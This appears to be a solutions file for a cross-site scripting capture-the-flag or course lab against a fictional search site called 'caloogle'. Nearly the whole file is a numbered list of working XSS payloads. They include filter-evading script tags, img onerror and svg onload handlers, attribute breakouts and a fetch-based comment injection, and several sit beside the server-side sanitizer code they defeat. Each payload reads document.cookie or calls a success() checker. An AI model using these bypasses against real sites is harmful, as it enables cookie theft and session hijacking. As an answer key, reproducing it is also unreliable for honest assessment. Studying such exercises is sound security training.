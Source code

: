 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success(document.cookie)</script>
```

# 2. No Script Allowed (3 points)

```
<script><script>success(document.cookie)</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<scrscriptipt>success(document.cookie)</scrscriptipt>
```

# 4. An Open-and-Shut Case (3 points)

```
<SCRIPT>success(document.cookie)</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
<ScRiPt>success(document.cookie)</ScRiPt>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<img src=1 onerror=success(document.cookie)></img>
```

# 7. Between a Rock And a Hard Place (3 points)

```
<img src=1 ononerror=error = success(document.cookie)></img>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<script>>success(document.cookie)</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''
  let oldQ
  while (q !== oldQ) {
    oldQ = q
    q = q.replace(/<|>/g, '')
  }
  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
<iframe src="<svg onload=success(document.cookie)>">
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
<iframe src=""<svg onload=success(document.cookie)>"">
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  let oldQ
  while (q !== oldQ) {
    oldQ = q
    q = q.replace(/"/g, '')
  }

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
'><img src=x onerror=success(document.cookie)>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  q = htmlAttributeEscape(q)

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
http://caloogle.xyz:4140/search?q=dk%5C&lang=en%22%20onload=success(1)
```

# 15. The Early Bird Catches the Worm (3 points)

```
</ScrIpt><script>success(1)</script>
```

# 16. Tying Up Loose Ends (3 points)

```
<<//ScrIpt><script>success(1)<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```
<script>/* Bad stuff here... */</script>

js:

 function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
```

# 18. Congrats

N/A

# Əlavə qeydlər

```
Əlavə qeydlərinizi yazın
```
